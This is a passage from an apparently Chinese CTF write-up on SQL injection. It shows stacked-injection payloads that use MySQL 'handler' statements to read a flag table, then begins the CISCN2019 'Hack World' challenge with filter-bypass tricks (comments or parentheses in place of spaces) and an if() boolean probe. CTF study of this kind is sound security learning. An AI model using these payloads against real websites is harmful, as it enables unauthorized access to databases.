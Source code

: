 这里show没有被过滤，可以进行堆叠注入

**payload**

```
1';show tables;
1';show columns from FlagHere;
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
```

使用handler .... open语句进行查询，有下面的用法

> 例如,现在已知一张表名为tablename：
>
> ```
> handler tablename open;
> handler tablename read frist;
> handler tablename close;
> 
> 或者：
> 
> handler  tablename open as test;
> handler test read frist;
> handler test close;
> ```
>
> ```
> handler tablename read first; 读取tablename表的第一行信息。
> handler tablename read next;   读取tablename表的下一行信息。
> handler tablename read first limit 0,2; 读取tablename表的前两行信息。
> ```

## [CISCN2019 华北赛区 Day2 Web1]Hack World

[链接](https://www.jianshu.com/p/a98b1b9d3265)

![image-20240202201345772](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202201345772.png)

返回的是id=2时的结果

判断为数字型注入，但是过滤了很多（union，and，or，空格等）

空格可以利用`/**/`或圆括号代替

这里没有过滤圆括号

> if语句里面有三个参数
>
> if(a,b,c)
>
> 如果a的结果是true，那么就返回b，另就返回c
>
> 类似三目运算符

```
id=if(1,2,1) 这里回显2时的结果
```
